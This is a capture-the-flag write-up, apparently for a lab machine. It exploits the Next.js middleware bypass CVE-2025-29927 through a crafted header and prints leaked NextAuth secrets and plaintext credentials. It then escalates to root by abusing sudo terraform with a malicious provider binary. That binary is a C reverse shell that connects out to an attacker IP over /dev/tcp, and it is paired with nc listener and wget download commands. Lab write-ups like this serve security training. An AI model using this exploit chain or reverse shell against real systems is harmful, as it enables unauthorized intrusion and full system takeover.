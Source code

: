 ![[IMG-20250823234029175.png]]
## Foothold

### [CVE-2025-29927](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)

![[IMG-20250824012840494.png]]

![[IMG-20250824012910247.png]]
USE:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![[IMG-20250824012954799.png]]

![[IMG-20250824013047596.png]]

![[IMG-20250824172304583.png]]

![[IMG-20250824171318691.png]]



![[IMG-20250824171346486.png]]

![[IMG-20250824172115997.png]]

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

![[IMG-20250825144128893.png]]

```
  "/api/auth/[...nextauth]": "pages/api/auth/[...nextauth].js",
```

![[IMG-20250825144743209.png]]

```js
let o = {
        session: { strategy: "jwt" },
        providers: [
          r.n(CredentialsProvider)()({
            name: "Credentials",
            credentials: {
              username: { label: "User", type: "username" },
              password: { label: "Password", type: "password" }
            },
            authorize: async e =>
              e?.username === "jeremy" &&
              e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
                ? { id: "1", name: "Jeremy" }
                : null
          })
        ],
        pages: { signIn: "/signin" },
        secret: process.env.NEXTAUTH_SECRET
      };
```

## User Flag

```
user: jeremy
password: MyNameIsJeremyAndILovePancakes
```

![[IMG-20250825144931061.png]]

## Root Flag

### Analyse

![[IMG-20250825172605435.png]]

![[IMG-20250825180207799.png]]

### Exploit

[Doc Terraform](https://developer.hashicorp.com/terraform/cli/config/environment-variables)

![[IMG-20250825172549609.png]]

Load a config file custom.

![[IMG-20250825173844708.png]]

### Attacker machine

```bash
gcc main.c -o terraform-provider-examples
python3 -m http.server 8000
nc -lvnp 4444
```

main.c:
```c
#include <unistd.h>
int main() {
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.141/4444 0>&1", NULL);
    return 0;
}

```

### Victim machine

```bash
wget http://10.10.14.141:8000/terraform-provider-examples
chmod +x terraform-provider-examples
sudo /usr/bin/terraform -chdir\=/opt/examples apply
```

![[IMG-20250825175332705.png]]

![[IMG-20250825175351049.png]]



![[IMG-20250825165336107.png]]
